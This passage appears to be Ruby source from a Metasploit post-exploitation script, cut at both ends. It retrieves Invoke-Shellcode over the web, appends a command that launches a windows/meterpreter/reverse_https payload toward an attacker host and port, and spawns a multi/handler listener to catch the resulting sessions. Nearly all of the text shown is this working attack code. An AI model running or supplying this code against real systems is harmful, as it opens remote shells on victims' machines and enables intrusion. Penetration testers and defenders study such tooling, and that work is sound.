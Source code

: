 ```
    if !res or res.code != '200'
      raise RuntimeError, "Could not retrieve Invoke-Shellcode"
    end

    @pl = res.body
    @pl << "\nInvoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost %s -Lport %s -Force" % [host, port]
    return cmd
end


#
# Mimics what MSF already does if the user doesn't manually select a payload and lhost
#
lhost = framework.datastore['LHOST']
unless lhost
  lhost = Rex::Socket.source_address
end

#
# If there is no LPORT defined in framework, then pick a random one that's not used
# by current sessions. This is possible if the user assumes module datastore options
# are the same as framework datastore options.
#
lport = framework.datastore['LPORT']
unless lport
  lport = 4444 # Default meterpreter port
  while is_port_used?(lport)
    # Pick a port that's not used
    lport = [*49152..65535].sample
  end
end

# do the same from above, but for the server port
sport = [*49152..65535].sample
while is_port_used?(sport)
    sport = [*49152..65535].sample
end

# maybe we want our sessions going to another instance?
use_handler = true
use_handler = nil if (session.exploit_datastore['DisablePayloadHandler'] == true)

#
# Spawn the handler if needed
#
aborted = false
begin

  mh = nil
  payload_name = 'windows/meterpreter/reverse_https'
  if (use_handler)
      mh = framework.modules.create("exploit/multi/handler")
      mh.datastore['LPORT'] = lport
      mh.datastore['LHOST'] = lhost
      mh.datastore['PAYLOAD'] = payload_name
      mh.datastore['ExitOnSession'] = false
      mh.datastore['EXITFUNC'] = 'process'
      mh.exploit_simple(
        'LocalInput'     => session.user_input,
        'LocalOutput'    => session.user_output,
        'Payload'        => payload_name,
        'RunAsJob'       => true)
```